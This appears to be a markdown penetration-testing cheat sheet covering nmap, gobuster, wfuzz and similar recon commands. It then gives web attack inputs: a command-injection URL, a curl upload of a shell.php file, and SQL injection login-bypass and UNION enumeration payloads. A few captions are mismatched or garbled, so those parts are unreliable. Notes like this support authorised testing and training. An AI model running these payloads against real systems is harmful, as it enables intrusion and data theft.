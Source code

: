 ### Recon
#### AutoRecon
- Always start here, trust me.
```
autorecon -ct 2 -cs 2 -vv -o outputdir 192.168.1.100 192.168.1.1/30 localhost
autorecon x.x.x.x
````
- ct (concurrent targets)
- -o custom output directory location.
- -cs limits the number of concurent scans per target
- Auto recon will create and store the results in the /results directory.
#### NetDiscover
- Netdiscover is an active/passive reconnaissance tool that uses ARP to find live hosts on a local network.
- Netdiscover actively searches for live hosts on the network by broadcasting ARP requests like a router.
- By default netdiscover operates in active mode, however you can use it in passive mode with -p.  With passive move it will not broadcast anything.
- Note: ARP is unable to cross network boundaries or over any VPN connection
``` 
netdiscover -r 10.11.1.0/24
````
#### Nmap
- I have no time to read, just give me the meta.
````
nmap -sS x.x.x.x -p- --min-rate 10000
nmap -A -T5 x.x.x.x -p- -vv
nmap --script=scriptname.nse x.x.x.x -vv
````
- Ping Scan -sn Option
- -sn tells nmap to perform host discovery only without any additional port scanning and prints out details of any hosts that responded.
````
nmap -sn 10.11.1.0/24
````
- nmap also has the -Pn option which will disable the host discovery stage altogether on a scan.  The -Pn option is best used in combination with other scans.
-TCP Connect Scan
- The TCP connect scan in Nmap is the alternative TCP scan to use when a SYN scan is not an option.  
- TCP connect scan should be used when nmap does not have raw packet privileges which is required for a SYN scan.
- TCP complete performs the entire 3 way handshake.
- SLOW!
````
nmap -sT [target host]
````
-TCP SYN Scan
- The TCP SYN scan is usually the best scan option in most cases and is known as the ‘stealthy port scan.’
- Does not complete the 3 way handshake
````
nmap -sS [target host]
````
- UDP Port Scanning
- Always check for UDP ports will pick up DNS, NTP, SNMP 
- Check top 100 ports with the `-F` option.
- Generally much slower than TCP scanning 
````
nmap -sU [target host]
nmap -sU -F [target host]
````
- Fingerprint Services
- To figure out what services are running on target ports we use:
````
nmap -sV [target ip address]
````
- The following command will use nmap port scan to detect the service and OS:
````
nmap -sV -O [target ip address]
````
- Can also use the -A option in Nmap.  The A stands for aggressive scan options and enables OS detection, script scanning and traceroute.
````
nmap -A [target ip address]
````
- Scanning port ranges with Nmap
- By default nmap will only scan the most 1000 common ports. To override the default use the -p
````
nmap -p 1-100 [target host]
nmap -p 137-139,445 [target host]
````
- NSE
- Location of scripts 
````
/usr/share/nmap/scripts
````
- Scripts are sorted by protocol, can sort by service
````
ls -l /usr/share/nmap/scripts/ftp*
````
- Nmap script help 
````
nmap --script-help ftp-anon
````
- Nmap script execution
````
nmap --script=[script name] [target host]
````
- The following command executes a script names http-robots.txt on port 80:
````
nmap --script=http-robots.txt [target host]
````


#### Nikto
```
nikto -h x.x.x.x
```
#### GoBuster
```
gobuster -u x.x.x.x
gobuster dir -u http://x.x.x.x -w /usr/share/wordlists/dirb/common.txt
gobuster -u http://x.x.x.x -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php
gobuster -s 200,204,301,302,307,403 -u x.x.x.x
```
##### Wfuzz
```
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt --hc 404 x.x.x.x/FUZZ
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt -R 3 --sc 200 x.x.x.x/FUZZ
wfuzz -c -z file,/root/.ZAP/fuzzers/dirbuster/directory-list-2.3-big.txt --sc 200 http://x.x.x.x/FUZZ.php
wfuzz --hw=1 --hh=3076 -w seclist_common_wordlist.txt http://x.x.x.x/FUZZ
```
##### WpScan
```
wpscan --url http://x.x.x.x --enumerate u,p,t
```
##### SNMPWalk
```
snmpwalk -c public -v1 x.x.x.x
````
##### Webdav
- Incorrect permissions test 
```
cadaver http://x.x.x.x
davtest http://x.x.x.x
```
##### Command Injection
- File Traverse:
```
x.x.x.x/file.php?cmd=ls
```
- Test file upload with curl
```
curl -vX options http://x.x.x.x 
```
- Upload file using curl to website with PUT option available
```
curl --upload-file shell.php --url http://x.x.x.x
```
##### Login Bypass
```
john ' or '1'='1
```
- Enter into username and password
##### Determine vulnerable columns or column that is visible
```
param=' or 1=0 union select null,null,null
param=' or 1=0 union select 1,2,3
```
- Else try
```
param=' or 1=1 union select table_name,null,null from information_schema.tables
```
- If it produces an error try table_name at other positions
- Say Column 1 and 2 are visible from the above queries
- Further Enumerate
```
param=' or 1=0 union select table_schema,null,null from information_schema.columns
```
-Display all databse names
```
param=' or 1=0 union select table_name,null,null from information_schema.columns
```
- Display all table names
```
param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'
```
- Display tables inside public databse

